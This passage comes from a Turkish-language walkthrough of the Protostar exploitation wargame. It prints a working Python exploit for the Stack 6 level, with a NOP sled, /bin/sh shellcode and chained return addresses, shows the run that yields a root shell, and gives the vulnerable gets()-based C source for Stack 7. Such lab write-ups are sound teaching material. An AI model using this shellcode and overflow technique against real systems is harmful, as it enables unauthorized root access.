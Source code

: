 Görüldüğü gibi `ebp = 0xbffff658`. O zaman zıplayacağımzı adress `0xbffff658 - 0x3a = 0xBFFFF61E ` oluyor. Exploitimizi yazalım:
```python
nops = '\x90'*36
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
junk = "A"*12 + "B"*4
return_addr_of_ret = "\xf9\x84\x04\x08" #0x080484f9
shellcode_addr = "\x1e\xf6\xff\xbf" #0xBFFFF61E

print nops + shellcode + junk + return_addr_of_ret + shellcode_addr
```
Ve çalıştırıyoruz...
```bash
user@protostar:/tmp$ python stack6.py > stack6
user@protostar:/tmp$ cat stack
cat: stack: No such file or directory
user@protostar:/tmp$ cat stack6
������������������������������������1�Ph//shh/bin�����°
                                                       1�@̀AAAAAAAAAAAABBBB�����
user@protostar:/tmp$ (cat stack6;cat)| /opt/protostar/bin/stack6
input path please: got path ������������������������������������1�Ph//shh/bin�����°
                                                                                   1�@̀��AAAAAAAABBBB�����
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```
Evet root shell aldık :)

## Stack 7
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```